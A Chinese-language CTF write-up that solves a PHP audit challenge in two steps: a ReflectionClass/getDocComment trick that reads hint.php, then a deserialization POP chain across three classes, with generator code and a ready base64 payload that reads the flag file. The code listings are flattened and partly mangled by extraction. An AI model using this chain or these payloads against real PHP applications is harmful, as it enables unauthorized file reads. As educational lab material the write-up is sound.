





SimplePHP 0x01 反射类-读取文件 是一道代码审计题，源码如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 <?php error_reporting (0 );show_source (__FILE__ );Class Hello{ public $filename ; public $contents ; public function __construct ( $this ->filename = "hint.php" ; $this ->contents = "you guess" ; } public function fileread ( echo "keep going" ; } } $a = $_GET ["a" ];$b = $_GET ["b" ];$c = $_GET ["c" ];$d = $_GET ["d" ];$e = $_GET ["e" ];$f = $_GET ["f" ];$g = $_GET ["g" ];$class = new $a ($b );$str1 = substr ($class ->$c (),$d ,$e );echo $str1 ."<br/>" ; $str2 = substr ($class ->$c (),$f ,$g );echo $str ."<br/>" ; $str1 ($str2 );
通过源码审计不难看出目标和目标触发点，其中目标为读取hint.php，而 目标触发点为$str1($str2)
大概思路整理一下就是：
达成目标为使用$str1($str2)去执行文件读取，即$str1要为文件读取函数字符串，$str2要为hint.php字符串；
先实例化一个类，类名为变量$a，传参为变量$b
$str1的值是通过切割字符串，即切割起点为$d，切割长度$e，而字符串来源为实例化类$a中类函数$c的返回值，$str2字符串同理。
但是目前可用的类只有Hello，而该类中唯一的类函数只有fileread()，且没有返回值，所以只能通过官方内置类来入手。
PHP官网查看发现有一个反射类ReflectionClass ，是可以获取文档注释的

且当前的注释文档中包含了readfile，也包含了hint.php字符串，所以思路可行。

构造url为a=ReflectionClass&b=Hello&c=getDocComment&d=123&e=8&f=44&g=8可以看到文件成功被读取到（具体的截取步骤就展示）

通过查看源代码可以看到比较全的代码

0x02 反序列化-读取flag文件 先把源码拷贝出来分析
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 <?php error_reporting (0 );class AAA public $filename ; public $ppp ; public $img ; public function __construct ( { var_dump ($this -> this); $this ->filename = "flag.flag" ; } public function fileread ( { $content = base64_encode (file_get_contents ($this ->filename)); echo $content ; } public function __get ($name { return $this ->ppp[$name ]; } public function __call ($name , $arguments { if ($this ->{$name }){ $this ->{$this ->{$name }}($arguments ); } } } class BBB public $app ; public function __construct ( { $this ->app = "" ; } public function __destruct ( { echo $this ->app; } } class CCC public $log ; public function __construct ( { $this ->log = "" ; } public function __tostring ( { $this ->log->index (); } } unserialize (base64_decode ($_GET ["ser" ])); ?>
一些比较重要的注释我已经写在上面了，只要理清楚这几个类之间的关系就行，其中反序列化有以下特征：
除了自动触发的魔法函数，无法触发自定义函数。
可以通过反序列化修改类属性
再理清楚三个类的魔法函数触发关系：
BBB实例化后，并且运行结束后，会自动触发__destruct()，而该魔法函数会执行echo $this->appCCC的魔法函数__tostring()的触发需要借助echo，且触发后会执行$this->log->index()，也就是说**BBB能够触发CCC的魔法函数**AAA的魔法函数__call()的触发需要借助访问不存在的类函数，而CCC能够触发AAA的此魔法函数 ，且传进去的$name为index当AAA访问不存在类属性时，会自动触发__get()函数，即会触发return $this->ppp[$name]，也就说，如果AAA没有类属性时，会从类属性$ppp数组查找 。
而反序列化能够覆盖类原本的类属性，所以修改以上代码达到我们的要求：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 <?php error_reporting (0 );class AAA public $filename ; public $ppp = ['index' => 'fileread' ]; public $img ; public function __construct ( { var_dump ($this -> this); $this ->filename = "flag.flag" ; } public function fileread ( { $content = base64_encode (file_get_contents ($this ->filename)); echo $content ; } public function __get ($name { return $this ->ppp[$name ]; } public function __call ($name , $arguments { if ($this ->{$name }){ $this ->{$this ->{$name }}($arguments ); } } } class BBB public $app ; public function __construct ( { $this ->app = new CCC (); } public function __destruct ( { echo $this ->app; } } class CCC public $log ; public function __construct ( { $this ->log = new AAA (); } public function __tostring ( { $this ->log->index (); } } $flag = new BBB (); echo base64_encode (serialize ($flag )); ?>
将源代码中的三个类构造成符合要求的条件，最后实例化BBB对象，并将其进行序列化，最终输出如下
1 TzozOiJCQkIiOjE6e3M6MzoiYXBwIjtPOjM6IkNDQyI6MTp7czozOiJsb2ciO086MzoiQUFBIjozOntzOjg6ImZpbGVuYW1lIjtzOjk6ImZsYWcuZmxhZyI7czozOiJwcHAiO2E6MTp7czo1OiJpbmRleCI7czo4OiJmaWxlcmVhZCI7fXM6MzoiaW1nIjtOO319fQ==
将该字符串作为ser参数的值传入，即可获取到flag

然后进行base64解密即可得到flag（这个flag为自己编的）
flag{this_is_SimplePHP}